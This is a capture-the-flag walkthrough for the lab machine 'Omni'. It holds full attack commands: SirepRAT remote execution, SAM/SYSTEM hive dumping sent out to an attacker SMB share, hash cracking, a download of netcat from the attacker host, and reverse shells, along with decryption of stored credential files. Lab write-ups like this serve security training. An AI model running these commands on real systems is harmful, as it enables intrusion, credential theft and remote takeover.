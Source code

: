 ## Omni

Difficulty: Easy

### User Flag

rustscan -a 10.10.10.204 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/fe556e48-9428-48a8-9ca3-ef3cf9949452)

<br>

Port 8080 needs authentication.

![port8080](https://github.com/b1d0ws/OSCP/assets/58514930/dfd1b671-69e4-479f-bc43-fef6cac56051)

<br>

Searching for Windows Device Portal exploit, we find a exploit github repository.

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/6cf24985-6e52-48cb-9b48-f6ad3cd829ef)

<br>

With this exploit, we execute remote commands.  

Using the command below, we check that our user profile is SYSTEM.

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}" --v
```

![userProfile](https://github.com/b1d0ws/OSCP/assets/58514930/b33ba51e-5c82-415d-9e5a-86f745512297)

<br>

Being SYSTEM we can dump SAM and SYSTEM to extract hashes. Let's also create a SMB directory to get this files.

```
# Configuring SMB
vim /etc/samba/smb.conf

[Public]
path = /tmp/Public
writable = yes
guest ok = yes
guest only = yes
create mode = 0777
directory mode = 077
force user = nobody

mkdir /tmp/Public
chmod 777 /tmp/Public
service smbd restart

# Dumping SAM and SYSTEM
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c reg save HKLM\SYSTEM C:\SYSTEM"
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c reg save HKLM\SAM C:\SAM"

# Copying to our smb server
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c copy C:\SYSTEM \\\\10.10.14.21\\Public\\SYSTEM"
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c copy C:\SAM \\\\10.10.14.21\\Public\\SAM"
```

![creatingSmbDirectory](https://github.com/b1d0ws/OSCP/assets/58514930/ad43d41b-c657-4976-88ca-b9d6290c81fd)

![savingSamSystem](https://github.com/b1d0ws/OSCP/assets/58514930/6fd6e314-f596-42e3-b6c6-5a07d1d68d5f)

<br>

Crack with secretsdump and john

```
impacket-secretsdump -sam SAM -system SYSTEM local

john hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

![secretsDump](https://github.com/b1d0ws/OSCP/assets/58514930/393b50f1-6220-4a9b-a294-054d7ebdb260)

![john](https://github.com/b1d0ws/OSCP/assets/58514930/5116d28c-61a1-4e47-9421-7e491c824e30)

<br>

Now we can access port 8080 and login with app user.

On Windows Device Portal, there is a tab to run commands.

```
powershell -command iwr -Uri http://10.10.14.21:8000/nc64.exe -OutFile C:\Windows\Temp\nc64.exe

C:\Windows\Temp\nc64.exe -e cmd.exe 10.10.14.21 1337
```

![gettingReverse](https://github.com/b1d0ws/OSCP/assets/58514930/3f4b76e1-7a18-47f3-a283-0b80163f7fb7)

<br>

Inside app's home, user.txt is in powershell secretstring format.

```
powershell -c "$credential = import-clixml -path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().password"
```

![userTxt](https://github.com/b1d0ws/OSCP/assets/58514930/6928e3ca-9019-4c65-a5a5-fff561ccdd40)

<br>

We could direct get a reverse shell with SirepRAT exploit using the commands below, but with omni user and not app.

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell IWR -Uri http://10.10.14.21:8000/nc64.exe -Outfile c:\nc64.exe"

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c c:\nc64.exe -e powershell 10.10.14.21 9001"
```

<br>

### Root Flag

Inside app's desktop, iot-admin.xml is another secretstring file.  

Decrypting it with powershell, we find the administrator password.

```
powershell -c "$credential = import-clixml -path C:\Data\Users\app\iot-admin.xml;$credential.GetNetworkCredential().password"
```

![iotAdminXML](https://github.com/b1d0ws/OSCP/assets/58514930/f4a13e62-8b28-46e6-9318-0e51ae71fb1d)

<br>

Login into Windows Device Portal as administrator with this credentials.

```
powershell -c "$credential = import-clixml -path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().password"
```

![rootFlag](https://github.com/b1d0ws/OSCP/assets/58514930/245e1915-7bea-4a94-8432-4f12e73b81c4)
